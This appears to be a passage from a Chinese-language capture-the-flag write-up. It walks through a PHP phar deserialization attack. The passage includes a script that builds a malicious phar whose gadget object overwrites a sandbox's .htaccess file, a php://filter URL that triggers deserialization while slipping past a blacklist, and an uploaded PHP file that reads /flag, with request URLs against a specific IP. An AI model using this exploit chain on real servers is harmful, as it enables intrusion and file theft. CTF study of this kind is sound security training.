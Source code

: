 ```php
{
    public $username;
    public $password;
    public $admin;
    function __construct()
    {
        $this->admin = new ZipArchive();
        $this->username = '/var/www/html/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/.htaccess';
        $this->password = ZIPARCHIVE::OVERWRITE;
    }
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
@unlink("test.phar");
$phar = new Phar("43.phar");
//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
//设置stub
$o = new File();
$phar->setMetadata($o);
//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");
//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

上传該phar文件。访问該文件。使得解除`.htaccess`被写乱的现状。

访问該链接，就是为了触发phar反序列化漏洞。

```
http://112.126.102.158:9999/view.php?filename=&filepath=php://filter/convert.base64-
encode/resource=phar://sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/dab4372519226a4dccef3b43f41200c1.phar
```

使用`filter://`是为了绕过黑名单



接着上传木马

```php
<?php
var_dump(file_get_contents("/flag"));
?>
```



访问链接：

```
http://112.126.102.158:9999/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/71c31cca71459cafdb161a3f63a6fdc7.php
```

获得flag





